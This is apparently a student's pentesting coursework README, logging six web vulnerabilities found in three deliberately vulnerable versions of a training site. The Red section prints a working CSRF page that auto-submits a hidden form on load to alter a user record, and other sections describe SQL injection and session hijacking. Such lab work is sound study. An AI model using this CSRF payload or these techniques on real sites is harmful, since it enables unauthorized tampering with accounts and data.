 # Project 8 - Pentesting Live Targets

Time spent: **7** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection

Description: When an SQL Injection is performed in the URL for the id with a "'" after the id value we get a Database Query Failed which is not present in other sites like the green and the red. This means that the Blue is not sanatizing the input properly.

<img src="http://g.recordit.co/aUAfU46Xqi.gif">


Vulnerability #2: Session Hijacking/Fixation

Description: This shows how in the Blue site when the Session ID was taken from one broswer and that same Session ID was used in browser that needed to be attacked, the attacked broswer once Session ID was changed the page was logged into. 

<img src="http://g.recordit.co/CXUME0aTWJ.gif">



## Green

Vulnerability #1: Username Enumeration

Description: The bold text that is returned when we use "jmonroe99" as the username and and standard text returned when we use "hacker" as the username tells us as hackers that "jmonroe99" is in the database and "hacker" is not. This is username enumeration vulnerability becuase the system gave information regarding which is a correct and wrong username with the use of bold text. 

<img src="http://g.recordit.co/5wCwKNN9VV.gif">

Vulnerability #2: Cross-Site Scripting

Description: This shows how when a script was put into the contact us form, the script was able to get executed and showed up in the feedback tab. 

<img src="http://g.recordit.co/96WgGM2QMX.gif">


## Red

Vulnerability #1: Insecure Direct Object Reference

Description: This one shows how changing the ID in the URL of the site caused a leakage of data such a non-public user which was not suppose to be shown to a user like me. 

<img src="http://g.recordit.co/bB1RVWjluf.gif">

Vulnerability #2: Cross-Site Request Forgery

Code Block:
```
<!doctype html>
<html lang="en">
  <head>
    <title></title>
  </head>
  <body onload="document.ohnoForm.submit()">
  <h1>Some random important content</h1>
  <h2>definitely not a trap.</h2>
    <form name="ohnoForm" action="https://35.184.88.145/red/public/staff/salespeople/show.php?id=3" method="POST" style="display: none;" target="secretIFrame" > <br />
      <input type="hidden" name="csrf_token" value="" /> <br />
      <input type="text" name="first_name" value="Oh" /> <br />
      <input type="text" name="last_name" value="No" /> <br />
      <input type="text" name="phone" value="555-867-5309" /><br />
      <input type="text" name="email" value="bleh@example.org" /><br />
    </form>
    <iframe name="secretIFrame" style="display:none;"></iframe>
  </body>
</html>
```

Description: This one shows how through the use of a html inputted into a contact us form was able to get executed and change a salesperson first and last name without even being logged into that particular user. 

<img src="http://g.recordit.co/s81R3gbEvc.gif">


## Notes

None

